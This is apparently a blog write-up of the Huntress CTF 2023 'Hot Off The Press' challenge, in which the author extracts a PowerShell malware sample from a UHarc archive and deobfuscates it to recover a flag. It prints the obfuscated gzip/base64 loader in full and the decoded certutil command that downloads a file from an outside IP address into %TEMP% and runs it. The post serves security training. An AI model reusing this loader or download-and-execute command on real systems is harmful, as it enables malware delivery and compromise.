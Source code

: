 ```yaml
---
title: "Hot Off The Press"
date: 2023-10-03T13:11:20-10:01
#draft: true
tags: ['CTF','Writeups', 'Malware', 'Medium']
---
```

 
# [Home](https://jjolley91.github.io/blog/) >

###  [Huntress CTF](https://jjolley91.github.io/blog/huntress_ctf_2023) >  [Medium Challenges](https://jjolley91.github.io/blog/huntress_ctf_2023/2.medium)

## [Back](https://jjolley91.github.io/blog/huntress_ctf_2023/zerion)  <> [Next](https://jjolley91.github.io/blog/huntress_ctf_2023/2.medium/traffic) 

### Oh wow, a malware analyst shared a sample that I read about in the news!

### But it looks like they put it in some weird kind of archive...? Anyway, the password should be infected as usual! 

We are given a UHarc archive file for this challenge. 

we can download the software to decompress the file from sam.gleske [here](https://sam.gleske.net/uharc/) and extract the contents using the password 'infected'.

The result will be a .ps1 file that windows will flag as malware immedately. we can open the file in a text exitor of choice and begin deobfuscating the code.
```ps1
$x = ([scriptblock]::create((New-Object System.IO.StreamReader(New-Object System.IO.Compression.GzipStream((New-Object System.IO.MemoryStream(,[System.Convert]::FromBase64String((('H4sI'+'AIeJ'+'G2UC/+1X'+'bU/jOBD+3l9hrS'+'IlkU{0}'+'VFvb{1}IiFdWqD'+'bPRJKS8vR'+'brUKy'+'TR168TFcQplb//7'+'jfNSygJ73{1}lI94F'+'IVvwyMx4/M'+'7YfT9PYl5TH'+'hH7sku8VUnxd'+'T3gRMTT/ku'+'/fWUSjS3Mzp'+'oX7zCWHxBjby+UR'+'jzwaTw4OWq'+'kQ{1}M'+'u8XW2'+'DtJM{1}'+'omtGI'+'TFM8he5nIGAnbP'+'rOfiSf'+'Cfat2qb8W'+'uPFW{0}rlufP'+'gOzYcaD'+'GTrnvKbeq/'+'SWj0tC/ftXN8U5'+'9Uj2+ST2'+'WGHp/nUiIqgFjuk'+'l+mGrCi/USDN2'+'hvuAJn8rqJY'+'13G9VBn'+'HhTcNHa'+'ChyQMx4'+'kul'+'nZ{0}{1}a'+'AT{1}Wcr0kZyUUMHa'+'tdwX0'+'7CAQkiW6RsTI'+'/nkx+N8bF'+'3{0}00'+'ljS'+'CaieWIPiyD'+'2JFfUiq'+'n704YNC'+'D6QS1+l{0}Q'+'OJyYJoq'+'t+AIM{0}U4Zs8'+'i/MWO4c'+'Fsi91olY1sJpbpS'+'mBYG'+'9Jl1OjxIG'+'eSa+jOO'+'5kl'+'g4pcngl'+'n5UalMy7'+'yJvPq'+'3o6eZs2mX'+'3zgbAHTX6PK'+'{1}Zr'+'qHp'+'GYRBy'+'f2JBdrbGoXIgVz'+'sgGbaNGe/Yf'+'1SmP1UhP1V'+'u0U'+'e8ZDToP'+'JRn0r'+'7tr0pj38q{1}'+'ReTuIjmNI'+'YjtaxF1G/'+'zFPjuWjAl{1}{1}GR'+'7UUc9{1}9Qy8'+'GIDgCB'+'q{1}nFb4qKZ6oHU'+'dUbnSbKWUB'+'CNvHiCb'+'oFQbbfO'+'xMHjJD78QORAhd3'+'sYs'+'1aa4O6'+'CU{0}nb'+'{1}upxdtVFIbz{1}v'+'SSzSTXF7+hbpg8c'+'gsIgdJ7QYs'+'lPJs6r+4K6T'+'Mkl9{0}5Glu'+'Yn5{1}5zFtC'+'0eJ1KkPgYVIbj'+'o{0}8'+'GnHlOIWO'+'QzDaC57'+'tOwnF5/Fo+Wxx'+'juG7S0wnhgj8'+'Kh{0}1Wq'+'CPQ0Swuz2g'+'fZiZYMIpTJjosT5'+'oV4'+'OBS7I'+'8st{0}4RAf8HRc'+'hPkGa+Q'+'KSHZchP'+'D3WdcWmRIhcTDR6'+'GM2fVfnHhy'+'6uTOtAQ'+'UwTGyvTVur'+'qXKfi0+P'+'W8sVI4WAGVwCI'+'lQn'+'AgeNb0{1}ftv{0}Dxjj'+'Q6dlh+/lvbyX'+'9/K/{0}22X+XG'+'vHr'+'RZ0mnV635'+'0N7'+'+6d'+'Pmob8sR'+'bf{0}gc+/2j'+'O6vT'+'ufHt856786'+'dO6lz{1}e5i'+'e302D2/PjuxV'+'tzFMr'+'xqfFqP{0}3nQU3'+'c1G'+'9zXmzq+'+'YGzn4P8b'+'iM7f'+'Rwf85lk'+'4+Nh8w5'+'36Q1Z17P6vn7'+'WP8h1gW2R/n+0'+'m2g8UuZ'+'M{0}M3kN7UYyHh'+'T17M5+aw22'+'ch1+GvZO{0}oc3+bF'+'+FX2jz'+'PmifrIOWvTq'+'nNhse'+'D91Ba+iPwsPD'+'D2ZlPKCx3G1M1{1}W'+'+qwhS'+'RWP+p/'+'2tS+Al6'+'ud4'+'Ipl5DC8H5HTl'+'FX3C'+'xUnB1{0}qcKg3DU'+'{1}x/'+'ASIGhvQYCXR5sd'+'mMcV+RxJzSIUP'+'NeaOisYNO'+'5tVzNZNsBM0'+'H9lh2HRyM'+'0{1}u8{0}{0}O7rH'+'oKcShnVu1ut1ZD'+'7le7q+3htfj6'+'pbX4cm3ktix'+'FHjNwNtZZZt2s'+'0CkxjDfHC9'+'8H{1}unK{0}xB7C'+'Tyce'+'4H0AvlOfukrCJ'+'ucs20A'+'i5Vt8'+'u{1}R'+'fghcHVc/Vq+'+'D{0}FPQxA7'+'c{1}{1}0q/rzFxrX0'+'+uz6TZOnIC8z/AX'+'/mDwPfb8YfVVC1a'+'wcoCfd'+'jzseiN/bIX'+'DpUYmCf'+'aRhDPKHwQtAFB'+'tmK8gqP{0}gbpsWn'+'Hspnq'+'dxx8'+'emlmODf2GZMc5'+'4PA'+'AA=')-f'L','E')))),[System.IO.Compression.CompressionMode]::Decompress))).ReadToEnd()));$x
```
Once you decode the base64 encoded message it will look like this:

```ps1
certutil -urlcache -f http://.103.163.187.12:8080/?encoded_flag=%66%6c%61%67%7b%64%62%66%65%35%66%37%35%35%61%38%39%38%63%65%35%66%32%30%38%38%62%30%38%39%32%38%35%30%62%66%37%7d %TEMP%\f & start /B %TEMP%\f
```

All that is left to do now is urldecode the flag:


![hotp](https://github.com/jjolley91/blog/blob/main/static/Huntress_CTF_2023/press_flag.png?raw=true)

## [Back](https://jjolley91.github.io/blog/huntress_ctf_2023/zerion)  <> [Next](https://jjolley91.github.io/blog/huntress_ctf_2023/2.medium/traffic) 